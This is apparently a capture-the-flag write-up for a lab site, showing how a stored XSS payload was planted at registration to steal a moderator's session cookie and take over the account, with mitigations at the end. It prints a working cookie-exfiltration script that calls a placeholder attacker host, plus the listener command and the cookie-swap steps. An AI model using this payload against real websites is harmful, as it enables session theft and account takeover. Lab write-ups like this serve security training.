


# Stored XSS - Session Hijacking

## Overview
This challenge required obtaining access to the **Moderator account** by exploiting a **Stored Cross-Site Scripting (XSS)** vulnerability.

The goal was to steal the moderator's active session cookie and reuse it to impersonate the account.

## Tools Used
- Kali Linux
- Firefox Developer Tools
- Python HTTP Server
- Source Code Inspection
- Basic Enumeration (`gobuster`)

## Reconnaissance
I first attempted directory enumeration using `gobuster`, but it did not reveal anything useful.

I then inspected the webpage source code manually using **View Page Source** in Firefox and discovered a hidden registration page.
```HTML
register.php
```
Navigating to that page allowed user registration

## Exploitation - Stored XSS
**Stored XSS (Stored Cross-Site Scripting)** occurs when malicious JavaScript is permanently saved by the web application (e.g database, comment field, or message board) and later executed in the browsers of users who view that content.

During registration, I inserted a **Stored XSS payload** into one of the input fields.

Example payload:
```HTML
<script>
new Image().src="http://ATTACKER-IP/?cookie="+document.cookie;
</script>
```
The `new Image()` method is commonly used in XSS payloads because it silently triggers an HTTP request without requiring user interaction.

### What this does:
- The application stores the payload.
- When another user (Moderator) views the page, thier browser automatically execute the script.
- Their session cookie is sent to my listener server.

## Listener Setup
Started a local web server to capture incoming requests:
```Bash
python3 -m http.server 80
```
After some time, the moderator visited the infected page and the server received:
```Bash
GET /?cookie=PHPSESSID=xxxxxxxxx
```
This exposed the moderator's session token.

## Session Hijacking
I then visited:
```
http://login.worldwap.thm/public/html/login.php
```
Opened **Developer Tools - Storage - Cookies**
Located my current session cookie:
```
PHPSESSID
```
Replaced its value with the stolen moderator cookie.

## Result 
After refreshing the page, I was authenticated as the **Moderator** and gained access to the account.

## Key Security Lessons
### Vulnerabilities Exploited:
- Stored XSS
- Session Hijacking
- Insecure Cookie Handling

### Mitigations:
- Regenerate sessions after login
- Sanitize user input
- Use HttpOnly cookies

## Screenshots




## Final Thoughts
This lab demonstrates how dangerous Stored XSS can be when combined with poor session protection.
Even without password cracking, full account takeover was possible through client-side exploitation.
